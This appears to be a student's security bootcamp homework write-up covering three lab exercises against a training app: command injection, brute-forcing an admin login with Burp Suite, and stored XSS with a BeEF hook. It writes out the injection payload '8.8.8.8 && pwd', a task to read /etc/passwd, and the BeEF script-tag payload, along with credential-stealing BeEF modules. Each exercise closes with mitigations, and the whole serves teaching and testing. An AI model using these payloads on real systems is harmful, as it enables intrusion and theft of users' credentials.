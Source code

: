 # Web Application 1: Your Wish is My Command Injection

1. Complete the following to set up the activity.

   - Access Vagrant and open a browser.
   - Navigate to the following webpage: http://192.168.13.25 and select the Command Injection option.
   - Alternatively, access the webpage directly at this page: http://192.168.13.25/vulnerabilities/exec/
	 - The web page should look like the following: [Setup](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/Setup.PNG)

2. This page is a new web application built by Replicants in order to enable their customers to ping an IP address. The web page will return the results of the ping command back to the user.
Complete the following steps to walkthrough the intended purpose of the web application.
	 - Test the webpage by entering the IP address 8.8.8.8. Press Submit to see the results display on the web application.
   - [8.8.8.8](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/HW%201.PNG)

3. Test if we can manipulate the input to cause an unintended result.

    -  On the same webpage, enter the following command (payload) in the field: 8.8.8.8 && pwd
    -  Press Enter. Note the ping results are the results of the second pwd command:
    - [8.8.8.8 && pwd](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/8.8.8.8%20%26%26%20pwd.PNG)

4. Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
    - [etc/passwd](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/HW%203.PNG)
    - [etc/hosts](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/etc_hosts.PNG)
6. Deliverables:
    - Setup
        ![Setup](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/Setup.PNG)
    - 8.8.8.8
        ![8.8.8.8](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/HW%201.PNG)
    - 8.8.8.8 && pwd
        ![8.8.8.8 && pwd](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/8.8.8.8%20%26%26%20pwd.PNG)
    - /etc/passwd
        ![/etc/passwd](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/HW%203.PNG)
    - /etc/hosts
        ![/etc/hosts](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/etc_hosts.PNG)

 - Possible mitigation strategies:
   - 	Have input validation against untrusted inputs so that any input to the application that has not been previously validated must be examined first. 
   - 	Apply the principle of least privilege. Ensure that each web server can only access directories or files it should be able to access, as a second line of defense. 

# Web Application 2: A Brute Force to Be Reckoned With 

1. Complete the following steps to set up the activity.
   -  Open a browser on Vagrant and navigate to the webpage http://192.168.13.35/install.php.
2.  This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login. 
    - If the user/password combination is correct, it will return a successful message.
    - If the user/password combination is incorrect, it will return the message, "Invalid credentials."

3. Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.
    - Use the web application tool Burp Suite, specifically the Burp Suite Intruder feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application.
    - You've been provided with a list of administrators and the breached passwords:
      - List of Administrators
      - Breached list of Passwords
4. Deliverables:
    - Setup
        ![Setup](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/bWapp%201.PNG)
    - Broken Authentication
        
        ![Broken Authentication](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/bWapp%202.png)
    
    - BurpSuite 1
        
        ![BurpSuite 1](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/burp%201.png)
    - BurpSuite 2
        
        ![BurpSuite 2](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/burp%202.png)
    - BurpSuite 3
        
        ![BurpSuite 3](https://github.com/jbutterfield15/BootCampHW/blob/main/Unit%2015%20Homework/Images/burp%203.png)
        
 - Possible mitigation strategies:
   - 	Set up Multi-factor Authentication
   -	Account Lockout after set number of invalid login attempts

# Web Application 3: Where’s the BeEF?

 - Task details:
   - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
   - The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
   - The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>

- When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.
	 
- Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
   - Social Engineering >> Pretty Theft
   - Social Engineering >> Fake Notification Bar
   - Host >> Get Geolocation (Third Party)

- Deliverables:
   - Fake Notification Bar
        
        ![Fake Notification Bar](https://user-images.githubusercontent.com/93692721/167760596-e8d506ae-d396-4dd8-98a0-14fb1bc37b6f.png)
   - Facebook Login
        
        ![Social Engineering - FB Login](https://user-images.githubusercontent.com/93692721/167760461-40007697-54d0-482d-8fd4-0b9dc8bec353.png)
   - Geolocation
        
        ![Get Geolocation](https://user-images.githubusercontent.com/93692721/167760737-c249bcf1-9d52-4b9d-a078-8185a0285ab5.png)
  
Possible mitigation strategies:

   -	Sanitize user input and use validation to catch potentially malicious input 
   -	Limit use of user-provided data to only what’s necessary 
